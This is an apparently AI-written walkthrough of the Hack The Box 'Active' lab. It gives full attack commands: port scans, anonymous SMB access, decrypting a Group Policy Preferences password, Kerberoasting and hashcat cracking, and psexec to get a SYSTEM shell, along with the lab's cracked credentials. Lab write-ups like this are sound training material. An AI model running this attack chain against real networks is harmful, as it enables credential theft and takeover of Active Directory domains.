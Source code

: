 Awesome job on completing HTB: Active! 🎉 Here's a full walkthrough-style write-up organized by phases, with all commands and relevant explanations included, and protocols hyperlinked where applicable:

---

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.100
```

### 🔍 Service Version and Script Scan
```bash
nmap -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152-49158,49169,49170,49179 -oA nmap/scripts 10.10.10.100
```

### 🔍 UDP Scan (for completeness)
```bash
nmap -sU -p- --min-rate 5000 -oA nmap/alludp 10.10.10.100
```

Key open ports included [Kerberos](KERBEROS), [SMB](SMB.md), [LDAP](LDAP.md), and [HTTP](HTTP).

---

## 📂 SMB Enumeration

### 🔎 Share Listing with smbmap
```bash
smbmap -H 10.10.10.100
```

### 🔎 Confirm access with enum4linux
```bash
enum4linux -a 10.10.10.100
```

---

## 📁 Replication Share - GPP Password

### 🗂️ Access the Replication share
```bash
smbclient //10.10.10.100/Replication -U ""%""
```

### 🧾 Locate GPP password in `Groups.xml`
```xml
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

### 🔐 Decrypt GPP password
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# Output: GPPstillStandingStrong2k18
```

---

## 👤 User Shell

### 🗂️ Enumerate users with access
```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

### 📥 Get `user.txt`
```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
smb: \SVC_TGS\desktop\> get user.txt
```

---

## 🔥 Kerberoasting

### 🎟️ Dump SPNs with Impacket
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

### 🔓 Crack Ticket with Hashcat
```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
# Output: Ticketmaster1968
```

---

## 🛠️ Administrator Access

### 🔓 Use cracked password to access shares
```bash
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```

### 📥 Get `root.txt`
```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
smb: \users\administrator\desktop\> get root.txt
```

---

## 🖥️ Shell as SYSTEM (Optional)

### 📦 Use psexec.py from Impacket
```bash
psexec.py active.htb/administrator@10.10.10.100
# Enter password: Ticketmaster1968
```

```cmd
whoami
# Output: nt authority\system
```
